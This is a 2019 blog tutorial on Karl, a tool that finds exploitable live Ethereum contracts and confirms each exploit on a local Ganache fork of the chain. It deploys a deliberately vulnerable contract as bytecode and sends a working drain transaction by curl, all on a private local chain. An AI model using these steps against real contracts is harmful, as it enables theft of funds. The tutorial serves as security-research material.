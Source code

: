 +++
title = "How to Exploit Ethereum in a Virtual Environment"
date = "2019-01-26T13:28:09+02:00"
draft = false
+++

> This is going to be a series about some of the techniques I implemented when designing [Karl](https://github.com/cleanunicorn/karl), a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![Long horses](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/longhorses.jpeg)

#### Virtual environment

A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember ["I accidentally killed it"](https://github.com/paritytech/parity-ethereum/issues/6995)?

Another great reason to use a virtual environment is that once we send transactions to the blockchain, any other person watching it will know how to exploit it; and they may not be as diligent as you about [responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure) to the creators of the application.

Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack. This could be part of a [security CTF](https://ctftime.org/ctf-wtf/) if not the real world.

#### How to setup the virtual environment

You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.

Being part of the [Truffle Framework](https://truffleframework.com/), the smart contract development environment, [Ganache](https://truffleframework.com/ganache) is your on demand personal Ethereum blockchain, perfect for local development… and hacking!

Whenever you need a private blockchain to develop your dApp, Ganache is your answer. Running a [geth](https://github.com/ethereum/go-ethereum) or [parity](https://www.parity.io/) node can be too much of a hassle, as it consumes plenty of resources and is not as easy to set up as Ganache.

You can install and run Ganache in just 2 commands (if you have [NodeJS](https://nodejs.org/en/) installed)

```console
$ npm install -g ganache-cli
$ ganache-cli
```

And you have your own personal blockchain.

A little-known feature of Ganache is **forking** another blockchain. You can think about this as **cloning** **an existing blockchain**, even if this is not exactly what happens under the hood.

#### This is how you fork the mainnet

```console
$ ganache-cli -f https://mainnet.infura.io
```

And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```console
$ ganache-cli -f https://mainnet.infura.io@100
```

This will provide a **blockchain clone** that it is safe to play with, it will create a local instance and you can send transactions and deploy new contracts, run your exploit, check its validity. All of this without touching the _real blockchain_, without anyone else knowing what you’re doing and without self destructing libraries by mistake.

> A lot of people had questions how does it actually copy all of the blockhain state so quickly. The answer is "It doesn't" it gets the state on demand. If your contract needs some state if it doesn't already have it locally it will pull it from the blockchain and cache it.

* * *

### Exploiting in a virtual environment walk-through

> This is where we start to go into details, you need a few things installed

In the following example you will:

* Run Karl and monitor for vulnerable contracts
* Fork the chain after we find a vulnerable contract
* Test the exploit and see if we stole some Ether

#### Karl

If you don’t know about Karl, go to the Github page and star the project. It helps you find vulnerable contracts on Ethereum.

[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)

> If you find any bug or have some problems running Karl, please [report an issue](https://github.com/cleanunicorn/karl/issues).

Karl is available as a pip package, just install it by running:

```console
$ pip install --user karl
```

For this example we can run our own private chain (which in practice would be the real chain) and deploy a vulnerable contract holding some Ether.

We start a private Ganache instance.

```console
$ ganache-cli -d
```

Start Karl and monitor for new contracts.

```console
$ karl --rpc localhost:8545
```

In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```

And we’re going to deploy a vulnerable contract ourselves.

This curl request deploys a vulnerable contract along with 1 Ether.

```console
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```

Karl found a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722

Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```

Now we can fork the chain and check the vulnerability ourselves.

#### Forking the chain

The original chain is located at `http://localhost:8545`, because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```console
$ ganache-cli -f [http://localhost:8545](http://localhost:8545) -d -p 9545
```

Each flag explained:

* `-f [http://localhost:8545](http://localhost:8545)` tells Ganache what chain to fork
* `-d` runs Ganache in deterministic mode, the same wallets are generated every time
* `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)

Once the fork is up and running we can send the transaction that Karl reported and see if we successfully stole the contract’s ETH.

Check initial balance for address `0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`

```console
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x56bc75e2d63100000"}
```

Our current balance is `0x56bc75e2d63100000` which is exactly 100 ETH in hex format.

#### Exploiting the contract

We send the transaction Karl reported

```console
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545

{
    "id": 1,
    "result": "0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"
}
```

We see a successful response with the transaction hash in the result.

#### Checking the final balance

Last thing to do is get the final balance.

```console
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x579a71129ec175000"}
```

There we go

* `0x56bc75e2d63100000` = `100 ETH` initial balance
* `0x579a71129ec175000` = `100.99971444 ETH` final balance

Doing the math we see that the difference is almost 1 Ether, the initial Ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![Boom!](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/boom.jpeg)Boom! Hacked!

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![Blockchain clone and exploit](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/fork.png)

All this goodness is already implemented and packaged for you.

[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
